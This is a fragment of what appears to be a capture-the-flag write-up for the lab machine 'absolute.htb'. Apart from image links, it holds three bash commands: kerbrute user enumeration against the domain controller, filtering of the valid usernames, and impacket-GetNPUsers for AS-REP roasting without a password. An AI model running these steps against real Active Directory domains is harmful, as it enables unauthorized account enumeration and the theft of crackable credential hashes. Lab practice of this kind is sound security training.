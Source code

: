 ![image3](../resources/dbdd55ffe1af486ab541325c988cfd16.png)

```bash
./kerbrute -v userenum -d absolute.htb --dc absolute.htb potentials | grep "VALID"

```

![image4](../resources/44202a2b62fc491f999a72fa8f2d34af.png)

```bash
cat valid_users | cut -d ":" -f 4 | cut -d " " -f 2

```

![image5](../resources/d8c2d952b8c04845ba1ff197d84a3af4.png)

```bash
impacket-GetNPUsers absolute.htb/ -users valid_users.txt -no-pass -dc-ip absolute.htb

```
